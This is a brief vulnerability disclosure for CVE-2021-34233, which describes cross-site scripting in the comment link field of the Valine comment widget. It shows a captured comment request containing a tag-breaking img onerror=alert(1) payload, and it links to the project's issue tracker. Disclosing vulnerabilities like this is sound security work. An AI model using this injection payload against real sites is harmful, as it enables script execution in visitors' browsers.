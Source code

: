 # CVE-2021-34233

### Summary

[Valine](https://github.com/xCss/Valine) comment links are vulnerable to XSS



### Details

Submitting comments and grabbing packets with burpsuite



![](./images/1.png)

poc

```python
{"comment":"1\n","nick":"test","mail":"test@163.com","link":"\" ></a><img src=x onerror=alert(1)>","ua":"Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0","url":"/faq.html","QQAvatar":"","ip":"2406:da14:727:6700:2746:774b:2b87:6dbe","insertedAt":{"__type":"Date","iso":"2021-06-03T15:59:08.981Z"},"ACL":{"*":{"read":true}}}
```

link payload is 

```python
\" ></a><img src=x onerror=alert(1)>
```



so result :

![](./images/2.png)



### link

+ [评论链接存在XSS漏洞 · Issue #363 · xCss/Valine · GitHub](https://github.com/xCss/Valine/issues/363)
+ https://github.com/xCss/Valine/issues/363
+ https://github.com/xCss/Valine/

